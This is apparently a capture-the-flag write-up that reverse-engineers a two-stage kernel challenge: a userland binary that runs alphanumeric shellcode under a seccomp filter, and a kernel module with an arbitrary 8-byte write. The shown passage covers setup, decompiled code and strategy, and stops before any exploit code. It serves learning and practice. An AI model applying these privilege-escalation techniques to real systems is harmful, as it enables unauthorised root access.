





# TL;DR

A two-stage challenge where you first take control of the current userland process via an alphanumeric shellcode, and then leverage a constrained arbitrary write primitive in a vulnerable kernel module to strip seccomp and escalate privileges to root by overwriting internal process structures.

# Well, let's dive in

(I spent a bit more time on this challenge than I originally expected... roughly +- 5 days...)

*rick and morty 20 minutes adventure in and out meme*

The description mentioned that this was a two-stage challenge. I downloaded and unpacked the archive, finding 6 files inside:

```{title="zsh" hl_lines=[5,7,8]}
╭─jzrn_@blog ~/writeup
╰─$ ls -la
-rw-r--r-- 1 jzrn_ jzrn_  721 Sep 17 20:17 Dockerfile
-rw-r--r-- 1 jzrn_ jzrn_  437 Sep 10 13:37 README.md
-rw-r--r-- 1 jzrn_ jzrn_ 7.4M Sep 10 13:37 bzImage
-rw-r--r-- 1 jzrn_ jzrn_  426 Sep 10 13:37 docker-compose.yml
-rw-r--r-- 1 jzrn_ jzrn_ 1.5M Sep 10 13:37 rootfs.cpio.gz
-rw-r--r-- 1 jzrn_ jzrn_  291 Sep 10 13:37 run-qemu.sh
```

`run-qemu.sh` caught my eye right away, so I decided to fire it up:

First, some weird banner popped up where I couldn't do anything:



Then a selection menu appeared, but as soon as I tried to interact with it, it immediately crashed into a kernel panic:



The first thing I decided to do was inspect `run-qemu.sh`. Here's what was inside:

```sh{title="run-qemu.sh" hl_lines=[8,9,10]}
#!/bin/sh
set -eu

# cd /home/ctf

exec qemu-system-x86_64 \
  -m 256M \
  -kernel ./bzImage \
  -initrd ./rootfs.cpio.gz \
  -append "console=ttyS0 oops=panic panic=1 kaslr pti=on quiet" \
  -nographic \
  -no-reboot \
  -monitor none \
  -serial stdio \
  -net none \
  -enable-kvm \
  -s
```

From this, I gathered that the following protections are active:
- `kASLR` - randomizes the kernel's virtual base addresses
- `kPTI` - page table isolation that hides userland pages while executing in kernel mode (which breaks things like ret2usr)

Next up, I unpacked `rootfs.cpio.gz` (initramfs) to see what was lurking inside, using the standard commands [from here](https://access.redhat.com/solutions/24029)

```{title="zsh" hl_lines=[33,37,42]}
╭─jzrn_@blog ~/writeup/initramfs
╰─$ zcat ../rootfs.cpio.gz | cpio -idmv
bin
bin/base64
bin/busybox
bin/cat
bin/chmod
bin/chown
bin/dmesg
bin/echo
bin/find
bin/head
bin/insmod
bin/mkdir
bin/mknod
...
shadowops.ko
sys
tmp
usr
usr/lib
usr/lib/x86_64-linux-gnu
usr/lib/x86_64-linux-gnu/libc.so.6
usr/lib/x86_64-linux-gnu/libresolv.so.2
6231 blocks

╭─jzrn_@pwn-container ~/PWN/CTF/PwnSec/death_ops/dist/writeup/dist/initramfs
╰─$ ls -la
total 104
drwxr-xr-x 13 jzrn_ jzrn_  4096 Sep 18 17:18 .
drwxr-xr-x  3 jzrn_ jzrn_  4096 Sep 18 17:17 ..
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep 18 17:18 bin
-rwxr-xr-x  1 jzrn_ jzrn_ 34712 Sep  3 15:18 blackops
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 dev
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 etc
drwxr-xr-x  3 jzrn_ jzrn_  4096 Sep 18 17:18 home
-rwxr-xr-x  1 jzrn_ jzrn_  1419 Sep  9 06:33 init
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep 18 17:18 lib64
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 proc
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 root
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 sbin
-rw-r--r--  1 jzrn_ jzrn_  9776 Sep  3 15:18 shadowops.ko
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 sys
drwxr-xr-x  2 jzrn_ jzrn_  4096 Sep  3 15:18 tmp
drwxr-xr-x  3 jzrn_ jzrn_  4096 Sep 18 17:18 usr
```

I spotted 3 interesting files: `init`, `blackops`, and `shadowops.ko`...

> Quick refresher: initramfs is a minimal root filesystem loaded into memory before the real system mounts. In kernel pwn, it's used as the entire root environment to save disk space and boot time. Usually, the kernel mounts the initramfs and spawns `/init` as PID 1 with root privileges.

Let's check out `/init` first:

```sh{title="/init"}
#!/bin/sh

mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev 2>/dev/null || true
mount -t tmpfs tmpfs /tmp

stty raw -echo 2>/dev/null || true

# Minimal passwd/group database so uid 1000 resolves to "ctf" in the shell.
mkdir -p /etc /home/ctf
cat > /etc/passwd <<'EOF'
root:x:0:0:root:/root:/bin/sh
ctf:x:1000:1000:ctf:/home/ctf:/bin/sh
EOF
cat > /etc/group <<'EOF'
root:x:0:
ctf:x:1000:
EOF
chown 1000:1000 /home/ctf 2>/dev/null || true

FLAG_NAME="flag-$(head -c 4 /dev/urandom | od -A n -t x | tr -d ' ').txt"
if [ -f /flag ]; then
    cat /flag > "/$FLAG_NAME"
    rm -f /flag
else
    echo "flag{test_flag_for_ctf_challenge}" > "/$FLAG_NAME"
fi
chmod 600 "/$FLAG_NAME"

if ! insmod /shadowops.ko 2>/dev/null; then
    echo "[!] SHADOWOPS MODULE LOAD FAILED"
fi
sleep 2
if [ ! -e /dev/shadowops ]; then
    while read minor name; do
        if [ "$name" = "shadowops" ]; then
            mknod /dev/shadowops c 10 "$minor" 2>/dev/null || true
            break
        fi
    done < /proc/misc
fi

if [ -e /dev/shadowops ]; then
    chmod 222 /dev/shadowops
else
    echo "[!] SHADOWOPS DEVICE NOT FOUND"
fi

# Run the challenge as the unprivileged ctf user (uid 1000). blackops has no
# setuid() of its own, so run it through BusyBox su; otherwise any shell obtained
# via the exploit would already be root and the challenge would be trivial.
exec su -s /bin/sh -c '/blackops' ctf
```

In short, it creates `/etc/passwd` and `/etc/group` so that UID 1000 resolves to `ctf`, generates a randomized flag filename and writes the flag to it
(yep, I tried just reading `/init` to snag the flag - didn't work), loads the `shadowops.ko` kernel module, sets up its device node in `/dev`, and finally drops privileges to launch `/blackops` as `ctf` (UID 1000).

# Reverse Engineering

## blackops

I started by checking the binary protections:

```
gef➤  checksec
[+] checksec for '/home/jzrn_/writeup/initramfs/blackops'
Canary                        : ✓    # checks if stack is smashed by injecting random data before the return address
NX                            : ✓    # makes stack non-executable
PIE                           : ✓    # randomises base address
Fortify                       : ✘    # changes some functions in favor of more secure ones
RelRO                         : Full # makes some sections read-only
```

As you can see, almost everything is enabled. I opened binary binja and started digging into how the binary works.

Let's start with `main`:

```c
00401120    int32_t main()
00401144        void* fsbase // canary
00401144        int64_t var_30 = *(fsbase + 0x28)
0040114e        setvbuf(fp: __bss_start, buf: nullptr, mode: 2, size: 0) // prepares stdin
00401163        setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0) // prepares stdout
00401182        uint64_t rax = mmap(addr: nullptr, len: 0x1000, prot: 7, flags: 0x22, 
00401182            fd: 0xffffffff, offset: 0) // maps 0x1000 bytes somewhere and makes it rwx
00401187        rwx_buf = rax

00401192        if (rax == -1)
00401438            die(msg: "[!] MMAP FAILED\n")
00401438            noreturn

004011a6        int32_t fd = open(file: "/dev/shadowops", oflag: 1) // device of our kernel module
004011b0        ops_fd = fd
004011b0        
004011b8        if (fd s< 0)
00401444            die(msg: "[!] SHADOWOPS INIT FAIL\n")
00401444            noreturn
........        ...
```

The beginning is pretty standard. It sets up unbuffered I/O, allocates a `0x1000`-byte `rwx` (read, write, execute) memory region using `mmap`, and opens `/dev/shadowops` for writing.

Let's keep reversing:

```c
........        ...
004011d3        while (true)
004011d3            unsigned char tmp[0x60]
004011d3            __builtin_memset(dest: &tmp, ch: '\x00', count: 0x10)
004011d3
004011d8            unsigned char (* tmp_ptr)[0x60] = &tmp
004011db            int64_t count = 0
004011e5            write(1, &data_402198, 0xd97)  // prints out a banner
004011e5            
004011fa            while (true)
004011fa                char input
004011fa                ssize_t wrotelen = read(fd: 0, buf: &input, nbytes: 1)
00401208                
0040120e                if (wrotelen s> 0 && input != '\n')
00401214                    count += 1
00401218                    *tmp_ptr = input
0040121c                    tmp_ptr += 1 // next symbol
0040121c                    
00401224                    if (count == 0xf) // max is 15 symbols
00401224                        tmp[0xf] = '\x00'
00401224                    else
00401226                        continue
00401226                    
00401224                    goto do_something
00401224
004013e0                tmp[count] = 0
........        ...
```

Alright, this loop reads user input into `tmp`. What happens next?

```c
........                ...
004013e9                if (count != 0)
00401235                do_something:
00401235                    int32_t choice = __isoc23_strtol(&tmp, 0, 10) // converts a string into the integer
00401235                    
0040123d                    if (choice == 1)
00401449                        intel_extract()  // read any* file
0040144e                        break
........                ...
```

Interesting: if we input `1`, it calls `intel_extract()`. We'll look into that in a second, but let's finish `main()` first:

```c
........                    ...
00401246                    if (choice == 2)
00401264                        write(1, "[*] ENGAGING SANDBOX...\n", 0x18)
00401264
00401288                        // ignore for now
00401288                        struct sock_filter filter[0xa]
00401288                        filter[0].code.q = 0x400000020
00401297                        filter[1].code.q = -0x3fffffc1fffeffeb
004012a6                        filter[2].code.q = -0x7ffffffffffffffa
004012ab                        filter[5].code.q = 0x100030015
004012ba                        filter[8].code.q = -0x7ffffffffffffffa
004012c9                        filter[6].code.q = 0x3c00020015
004012d8                        filter[9].code.q = 0x7fff000000000006
004012e2                        filter[7].code.q = 0xe700010015
004012ec                        struct sock_filter (* var_f0_1)[0xa] = &filter
004012f3                        filter[3].code.q = 0x20
004012fc                        filter[4].code.q = 0x40015
00401305                        input.q = 0xa
00401305                        
00401314                        if (prctl(option: 0x26, 1, 0, 0, 0) != 0) // no new privvileges :(
0040145a                            die(msg: "SANDBOX FAIL\n")
0040145a                            noreturn
0040145a                        
00401330                        if (prctl(option: 0x16, 2, &input) != 0) // activates seccomp
00401466                            die(msg: "SECCOMP FAIL\n")
00401466                            noreturn
00401466                        
0040134e                        write(1, "[*] SECURITY ACTIVE\n", 0x14)
0040136b                        write(1, "PAYLOAD> ", 9)
0040137e                        uint64_t payload_size = read(0, &tmp, 0x60) // yep, that tmp
0040137e                        
00401389                        if (payload_size s<= 0)
00401472                            die(msg: "[!] NO PAYLOAD\n")
00401472                            noreturn
00401472                        
0040138f                        unsigned char (* payload)[0x60] = &tmp
0040138f                        
00401407                        do
004013a0                            unsigned char byte = *payload
004013a0                            
004013b5                            // panics on any byte other than a-z A-Z 0-9
004013b5                            if ((byte & 0xdf) - 0x41 u> 0x19 && byte - 0x30 u> 9)
004013cf                                syscall(1, 1, "[!] INVALID BYTE IN PAYLOAD\n", 0x1c)
004013d9                                _exit(status: 1)
004013d9                                noreturn
004013d9                            
00401400                            payload += 1
00401407                        while (&tmp[payload_size] != payload) // last byte
00401407                        
00401409                        uint64_t rwx_buf_1 = rwx_buf
00401420                        __builtin_memset(dest: rwx_buf_1, ch: 0, count: 0x60)
0040142a                        memcpy(rwx_buf_1, &tmp, payload_size)() // copy and jump on a shellcode
0040142c                        break
0040142c                
004013f1                _exit(status: 0)
004013f1                noreturn
```

If we choose option 2, we get code execution via an alphanumeric shellcode, but we're confined by a strict seccomp sandbox (a mechanism that restricts which syscalls the process can make).

We can inspect the exact syscall restrictions using `seccomp-tools`. To do that without crashing `blackops`, we need to create `/dev/shadowops` in the host system first, and then run `seccomp-tools dump ./blackops:`

```{title="zsh" hl_lines=[37,38,39,40,41,42,43,44,45,46]}
╭─jzrn_@blog ~/writeup/initramfs
╰─$ sudo touch /dev/shadowops
╭─jzrn_@blog ~/writeup/initramfs
╰─$ sudo chmod 777 /dev/shadowops
╭─jzrn_@blog ~/writeup/initramfs
╰─$ seccomp-tools dump ./blackops

        ┌───────────────────────────────────────────────────────────────┐
        │ CLASSIFIED BLACKOPS TERMINAL :: STEALTH MODE ACTIVE        │
        └───────────────────────────────────────────────────────────────┘

   ▄▄▄▄    ██▓     ▄▄▄       ▄████▄   ██ ▄█▀   ▒█████   ██▓███    ██████
  ▓█████▄ ▓██▒    ▒████▄    ▒██▀ ▀█   ██▄█▒   ▒██▒  ██▒▓██░  ██▒▒██    ▒
  ▒██▒ ▄██▒██░    ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░   ▒██░  ██▒▓██░ ██▓▒░ ▓██▄
  ▒██░█▀  ▒██░    ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄   ▒██   ██░▒██▄█▓▒ ▒  ▒   ██▒
  ░▓█  ▀█▓░██████▒ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄  ░ ████▓▒░▒██▒ ░  ░▒██████▒▒
  ░▒▓███▀▒░ ▒░▓  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒  ░ ▒░▒░▒░ ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░
   ░▒   ▒ ░ ░ ▒  ░  ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░    ░ ▒ ▒░ ░▒ ░     ░ ░▒  ░ ░
    ░   ░   ░ ░     ░   ▒   ░        ░ ░░ ░   ░ ░ ░ ▒  ░░       ░  ░  ░
  ░ ░   ░     ░  ░      ░  ░░ ░      ░  ░         ░ ░                 ░
        ░                     ░

───────────────────────────────────────────────────────────────────────────────
  > CLEARANCE: TS/SCI  |  AUTH: VERIFIED  |  MODE: STEALTH
───────────────────────────────────────────────────────────────────────────────

  [1] INTEL EXTRACTION
  [2] PAYLOAD DEPLOYMENT
  [3] ABORT MISSION

───────────────────────────────────────────────────────────────────────────────

CMD> 2
[*] ENGAGING SANDBOX...
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0009
 0005: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0009
 0006: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0009
 0007: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0009
 0008: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

So, every syscall is blocked except `read`, `write`, `exit`, and `exit_group`.

Yeah, that's a brutal filter... Anyway, back to reversing. If you recall, option 1 called `intel_extract()`. Let's look at what it does:

```c
004015a0    void intel_extract()
004015a2        int512_t zmm0
004015a2        zmm0.o = zx.o(0)
004015b1        uint32_t intel_used_1 = intel_used
004015b7        void* fsbase
004015b7        int64_t canary = *(fsbase + 0x28)
004015ca        char path[0x100]
004015ca        __builtin_memset(dest: &path, ch: 0, count: 0x100)
004015ca        
00401637        if (intel_used_1 != 0) // we can call this function only one time
00401746            write(1, "[!] INTEL ALREADY EXTRACTED\n", 0x1c, zmm0)
00401637        else
0040164b            int64_t count = 0
00401657            char (* path_ptr)[0x100] = &path
0040165c            intel_used = 1
00401666            write(1, "TARGET> ", 8, zmm0)
00401666            
0040167c            while (true)
00401684                char c
00401684                
00401684                if (read(fd: 0, buf: &c, nbytes: 1) s> 0) // a loop to read path just like in main()
0040168a                    char c_1 = c
0040168a                    
00401691                    if (c_1 != '\n')
00401693                        i += 1
00401697                        *path_ptr = c_1
0040169a                        path_ptr += 1
0040169a                        
004016a5                        if (count != 0xff)
004016a5                            continue
004016a5                        
004016a7                        path[0xff] = 0
004016a7                        break
004016a7                
00401710                path[count] = 0
00401710                
00401718                if (count != 0)
00401718                    break
00401718                
00401721                die(msg: "[!] BAD PATH\n")
00401721                noreturn
00401721            
004016c3            if (strstr(&path, "flag") != 0) // interesting, so we can't read flag using it
004016e1                write(1, "[!] ACCESS DENIED\n", 0x12)
004016c3            else
00401759                int32_t fd = open(file: &path, oflag: 0)
00401759                
00401762                if (fd s< 0)
004017de                    die(msg: "[!] FILE NOT FOUND\n")
004017de                    noreturn
004017de                
0040177a                char buf[0x1000]
0040177a                
0040177a                int64_t size = read(zx.q(fd), &buf, 0x1000)
00401784                close(fd)
00401784                
0040178c                if (size s<= 0)
004017c8                    write(1, "[!] READ FAILED\n", 0x10)
0040178c                else
004017a0                    write(1, &buf, size)
004016e1        
004016ee        *(fsbase + 0x28)
004016ee        
004016f7        if (canary == *(fsbase + 0x28))
0040170a            return 
0040170a        
004017d2        __stack_chk_fail()
004017d2        noreturn
```

We can read the first `0x1000` bytes of any file, **except anything containing "flag"**. In theory, this could let us leak kernel addresses if needed.

Btw, I also found an unused function that never gets called anywhere in the binary:

```c
004017f0    void blackops_strike_write()
004017f5        void* fsbase
004017f5        int64_t canary = *(fsbase + 0x28)
00401808        uint32_t kwrite_used_1 = kwrite_used
00401808        kwrite_used = 1
00401808        
00401810        if (kwrite_used_1 != 0) // so only one write here
004018e2            die(msg: "[!] WRITE ALREADY EXPENDED\n")
004018e2            noreturn
004018e2        
0040182e        write(1, "WHERE> ", 7)
0040184a        struct ops_req req
0040184a        
0040184a        if (read(0, &req, 8) != 8)
0040190b            die(msg: "[!] BAD TARGET\n")
0040190b            noreturn
0040190b        
00401868        write(1, "WHAT> ", 6)
00401868        
00401886        if (read(0, &req.value, 8) != 8)
004018ff            die(msg: "[!] BAD VALUE\n")
004018ff            noreturn
004018ff        
004018a6        if (write(zx.q(ops_fd), &req, 0x10) != 0x10)
004018f3            die(msg: "[!] WRITE FAILED\n")
004018f3            noreturn
004018f3        
004018c0        write(1, "[+] OK\n", 7)
004018ca        *(fsbase + 0x28)
004018ca        
004018d3        if (canary == *(fsbase + 0x28))
004018da            return 
004018da        
004018e7        __stack_chk_fail()
004018e7        noreturn
```

```c
struct ops_req __packed
{
    uint64_t target;
    uint64_t value;
};
```

Now that's spicy. This means we can interact with that kernel module! Time to reverse `shadowops.ko` as well.

To recap `blackops`:
- We can read the first `0x1000` bytes of any single non-flag file once.
- We can execute shellcode, provided it is purely alphanumeric and fits within a strict seccomp sandbox.
- After executing shellcode, we can talk to `shadowops.ko`, though we still need to figure out how it works.

## shadowops

I started with `init_module`:

```c
00400bc0    int64_t init_module()
00400bcb        serial_puts("\n")
00400bd7        serial_puts("  "
00400bd7        "======================================================================================"
00400bd7        "
00400be3        serial_puts("  "
00400be3        "||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||"
00400be3        "
00400bef        serial_puts("  ||                                                                                  "
00400bef        "||\n")
00400bfb        serial_puts("  ||     ")
00400c07        serial_puts("  ||     ")
00400c13        serial_puts("  ||     ")
00400c1f        serial_puts("  ||     ")
00400c2b        serial_puts("  ||     ")
00400c37        serial_puts("  ||     ")
00400c43        serial_puts("  ||                                                                                  "
00400c43        "||\n")
00400c4f        serial_puts("  ||                        BLACK OPS INTERFACE                                       "
00400c4f        "||\n")
00400c5b        serial_puts("  ||                  RETRO TACTICAL LOAD SEQUENCE / CRT MODE                         "
00400c5b        "||\n")
00400c67        serial_puts("  ||                                                                                  "
00400c67        "||\n")
00400c73        serial_puts("  "
00400c73        "||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||"
00400c73        "
00400c7f        serial_puts("  "
00400c7f        "======================================================================================"
00400c7f        "
00400c8b        serial_puts("\n")
00400c97        serial_puts("  "
00400c97        "+------------------------------------------------------------------------------------+"
00400c97        "
00400ca3        serial_puts("  | BOOT SEQUENCE                                                                       "
00400ca3        "|\n")
00400caf        serial_puts("  "
00400caf        "+------------------------------------------------------------------------------------+"
00400caf        "
00400cbb        serial_puts("  |                                                                                    "
00400cbb        "|\n")
00400cc7        serial_puts("  |  [01] CHANNEL HANDSHAKE              "
00400cc7        "[########################################] OK  |\n")
00400cd3        serial_puts("  |  [02] SHADOW BUS ALIGNMENT           "
00400cd3        "[########################################] OK  |\n")
00400cdf        serial_puts("  |  [03] DEVICE COVER REGISTRATION      "
00400cdf        "[########################################] OK  |\n")
00400ceb        serial_puts("  |  [04] BLACKBOX TELEMETRY             "
00400ceb        "[########################################] OFF |\n")
00400cf7        serial_puts("  |  [05] RETRO CRT OVERLAY              "
00400cf7        "[########################################] ON  |\n")
00400d03        serial_puts("  |  [06] MODULE INSERTION VECTOR        "
00400d03        "[########################################] SET |\n")
00400d0f        serial_puts("  |                                                                                    "
00400d0f        "|\n")
00400d1b        serial_puts("  "
00400d1b        "+------------------------------------------------------------------------------------+"
00400d1b        "
00400d27        serial_puts("\n")
00400d39        return misc_register(&shadowops_dev)
```

Well, not much to see here... all it does is print a retro banner and register a misc device.

Maybe there's something interesting in `shadowops_dev`?

```
00400090  shadowops_dev:
00400090                                                  ff 00 00 00 00 00 00 00                                          ........

00400098  char const (* data_400098)[0xa] = 0x400130+0x2
004000a0  void* data_4000a0 = shadowops_fops

004000a8                          00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00          ........................
004000c0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 92 00 00 00 00 00 00 00  ................................
```

Standard stuff. Let's inspect `shadowops_fops`:

```
00400df0  void* shadowops_fops = __this_module

00400df8                                                                          00 00 00 00 00 00 00 00                          ........
00400e00  00 00 00 00 00 00 00 00                                                                          ........

00400e08  void* data_400e08 = shadowops_write

00400e10                                                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00                  ................
00400e20  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................................
00400e40  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00                                                  ................

00400e50  void* data_400e50 = shadowops_open

00400e58                                                                          00 00 00 00 00 00 00 00                          ........

00400e60  void* data_400e60 = shadowops_release

00400e68                          00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00          ........................
00400e80  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................................
00400ea0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................................
00400ec0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................................
```

So this device only implements three file operations: `open`, `write`, and `release`. We can't use `open` or `close` directly from shellcode because those syscalls are banned by seccomp,
but the fd is already opened for us in `ops_fd` - meaning we can write to it!

```c
00400030    int64_t shadowops_write(int64_t fd, int64_t* buf, int64_t len)
00400034        if (len != 0x10) // len must be 0x10 (16)
00400082            return -0x16
00400082        
0040003b        uint32_t used_1 = used
0040003b        used += 1
0040003b        
00400049        if (used_1 + 1 s> 2) // max 2 writes
0040007a            return -0xd
0040007a        
0040005f        int64_t* stack
0040005f        
0040005f        if (_copy_from_user(&stack, &buf, len) != 0)
0040008b            return -0xe
0040008b        
00400069        *stack = *(stack+8) // arbitrary write
00400072        return 0x10
```

And here is our ticket out of seccomp and straight to privilege escalation: an arbitrary 8-byte write primitive (even if heavily restricted).

# стратегия

We can cleanly divide this challenge into two parts: userland and kernel. In userland, we need to hijack execution flow, and in the kernel, we need to escalate privileges and grab the flag.

## userland

Recapping what we have from reversing:
- We can read the first `0x1000` bytes of a single non-flag file once.
- We can execute `0x60` bytes of machine code, strictly restricted to ASCII alphanumeric characters (`a-z A-Z 0-9`).

